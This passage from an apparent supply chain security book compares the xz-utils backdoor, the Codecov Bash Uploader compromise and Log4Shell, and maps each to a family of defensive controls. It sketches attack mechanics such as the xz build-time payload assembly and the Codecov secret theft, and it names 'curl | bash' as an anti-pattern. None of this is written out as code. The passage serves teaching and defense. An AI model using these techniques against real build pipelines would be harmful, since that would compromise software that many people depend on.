**CI tools as fleet-wide dependencies (Codecov).** In a distributed organization, the same
handful of CI tools run in *every* pipeline across *every* team. That uniformity is
operationally convenient and a security liability: a single compromised CI-embedded tool has
a blast radius equal to your entire engineering organization's secret material. The mitigation
is architectural — minimize what any single tool can see (scoped, short-lived, per-pipeline
credentials rather than broad standing tokens), pin and integrity-check anything you execute
in CI, and treat the set of things your pipelines fetch-and-run as a first-class dependency
inventory in its own right.

**Your most critical dependency may be one exhausted volunteer (xz).** At scale you depend on
thousands of open-source components, and the dependency *weight* is wildly unevenly
distributed. Some of the most load-bearing — compression, TLS, serialization, time-zone data
— are maintained by one or two unpaid people. You cannot audit the mental state of every
maintainer in your dependency graph, but you can (a) know which dependencies are
load-bearing enough to warrant attention, (b) support and, where possible, fund the critical
ones, (c) build from verifiable source with reproducible builds so a divergence between a
project's public history and its shipped artifact is *detectable*, and (d) participate enough
in critical projects that a hostile governance takeover is harder to accomplish unnoticed.
The structural fragility xz exposed is a property of the ecosystem you are standing on,
whether or not you choose to look at it.

## Synthesis: three shapes, three control families

Putting the three incidents beside each other clarifies why supply chain defense cannot be a
single control.

| Dimension | xz-utils (CVE-2024-3094) | Codecov Bash Uploader | Log4Shell (CVE-2021-44228) |
|-----------|--------------------------|-----------------------|----------------------------|
| Failure mode | Deliberate long-con implant | Compromised shared CI tool | Latent ecosystem vulnerability |
| Attacker in your chain? | Yes — malicious maintainer | Yes — via compromised vendor | **No** — unintentional flaw |
| Where it lived | Release tarball test fixtures + build script | Remotely hosted uploader script | A feature (JNDI lookups) in a ubiquitous library |
| Primary target | OpenSSH pre-auth RCE | Customers' CI secrets | Any app logging attacker input |
| How it was found | One engineer chasing 500ms latency | Customer noticed script hash mismatch | Public disclosure; instant mass exploitation |
| Dwell / exposure | ~2-3 yr social eng.; caught before stable distros | ~2+ months undetected | Latent for years; weaponized in hours |
| Attribution | Unconfirmed; assessed sophisticated/likely state-aligned | Not publicly attributed to a named actor | N/A — no attacker |
| Primary control family | Build-from-source, reproducibility, contributor trust | Script integrity, CI secret hygiene | SBOM + reachability |
| Developed in | Book 4 Ch 2-3; Book 7 | Book 4 Ch 6 | Book 3; Book 2 Ch 7 |

The mapping is the actionable part. **xz** argues for building from verifiable source with
reproducible builds (so the source-versus-tarball divergence becomes detectable) and for
treating contributor and maintainer trust as a managed security control — the reproducibility
and provenance work of Book 4 (Chapters 2-3) and the open-source ecosystem governance of Book
7. **Codecov** argues for script integrity (pin and verify, never `curl | bash` a mutable
remote) and CI secret hygiene (scoped, short-lived credentials; minimal tool privilege) — the
CI/CD hardening of Book 4, Chapter 6. **Log4Shell** argues for comprehensive, queryable
inventory (SBOMs, Book 3) and for reachability-aware prioritization (Book 2, Chapter 7) so
that when — not if — the next latent flaw in a ubiquitous dependency surfaces, you can answer
"where am I affected, and where does it actually matter?" in minutes.

No single one of these controls would have caught more than one of these incidents. That is
the closing lesson of the foundational case library: the supply chain has many independent
failure modes, and a serious program defends against all of them at once.

## Key takeaways

- The xz-utils backdoor (CVE-2024-3094, 2024) was the endpoint of a ~2-3 year social
  engineering campaign in which a "Jia Tan" (JiaT75) persona, aided by "Jigar Kumar" and
  "Dennis Ens" sockpuppets pressuring a burned-out solo maintainer (Lasse Collin), obtained
  co-maintainership and release authority over a near-universal Linux library.
- The xz payload was not visible in git: obfuscated payload bytes lived in binary `.xz`
  *test fixtures*, and a modified `build-to-host.m4` present only in the release *tarball*
  assembled malicious object code into `liblzma` during `./configure` — the definitive
  "source ≠ tarball" lesson.
- The xz backdoor reached `sshd` because some distros patch OpenSSH to link `libsystemd`,
  which pulls in `liblzma`; an IFUNC-based hook into the RSA public-key path enabled
  key-gated pre-authentication RCE. It targeted only Linux `x86-64` `deb`/`rpm` builds and
  stayed dormant otherwise.
- xz was found on 2024-03-29 by Andres Freund via a ~500ms `sshd` latency regression and
  Valgrind errors — extraordinary luck, not a working control — and crucially before 5.6.0/
  5.6.1 reached stable enterprise distros. Attribution remains publicly unconfirmed; the
  "sophisticated, likely state-aligned" read is assessment, not established fact.
- The Codecov Bash Uploader compromise (late Jan - Apr 1, 2021) stemmed from a credential
  exposed by a Docker image build error, letting attackers alter the hosted uploader script
  to exfiltrate customers' CI environment variables (secrets/tokens/keys) for 2+ months; a
  customer's script-hash mismatch against GitHub exposed it. The root anti-pattern is
  `curl | bash` of a mutable remote script in a secret-rich CI context.
- Log4Shell (CVE-2021-44228, Dec 2021) is a *vulnerability*, not an attack: JNDI/LDAP lookup
  substitution in ubiquitous, often-transitive-and-shaded `log4j-core` yielded trivial
  unauthenticated RCE. The supply chain lesson is the *response* problem — "where do I even
  have this?" — and the fix cascaded through 45046 → 45105 → 44832.
- The three incidents are three distinct failure modes — deliberate implant, compromised
  shared tool, latent ecosystem flaw — mapping to three control families: build-from-source/
  reproducibility and contributor trust (Book 4 Ch 2-3, Book 7); script integrity and CI
  secret hygiene (Book 4 Ch 6); and SBOM plus reachability analysis (Book 3, Book 2 Ch 7).
  No single control catches more than one.
- At distributed-systems scale, each incident is harder: fleet-wide component inventory has
  to be a build-time byproduct (Log4Shell), a CI-embedded tool's blast radius equals your
  whole org's secrets (Codecov), and your most load-bearing dependency may be one exhausted
  unpaid volunteer (xz).


### XZ Utils social-engineering timeline




### Codecov Bash Uploader compromise propagation




### Log4Shell: vulnerable component in depth of tree



## Further reading

- Andres Freund, "backdoor in upstream xz/liblzma leading to ssh server compromise,"
  openwall `oss-security` mailing list (March 29, 2024) — the original public disclosure.
- Filippo Valsorda, "The xz attack shell script" and follow-on analysis notes (late March /
  April 2024) — accessible reconstruction of the build-time payload assembly.
- Russ Cox, "Timeline of the xz open source attack" (April 2024) — a carefully sourced,
  citation-linked reconstruction of the social-engineering campaign.
- Thomas Roccia, "xz-utils backdoor" visual/technical diagrams (2024), and the community
  analyses collected at the `xz-utils` incident wikis maintained by the openwall and Debian
  communities.
- NIST National Vulnerability Database entry for CVE-2024-3094 (the xz-utils backdoor).
- Codecov, "Bash Uploader Security Update" (April 15, 2021) — the vendor's own disclosure of
  the Docker-image credential exposure and uploader modification.
- Apache Log4j Security Vulnerabilities advisory page (logging.apache.org) — authoritative
  descriptions of CVE-2021-44228, CVE-2021-45046, CVE-2021-45105, and CVE-2021-44832 and the
  associated fixed versions.
- CISA guidance on Apache Log4j (December 2021 onward), including affected-product tracking
  and remediation direction.
- Forward references within this series: Book 2, Chapter 7 (reachability analysis); Book 3
  (SBOMs — SPDX and CycloneDX); Book 4, Chapters 2-3 (reproducible builds and provenance) and
  Chapter 6 (CI/CD hardening and secret hygiene); Book 7 (open-source ecosystem risk and
  maintainer trust).
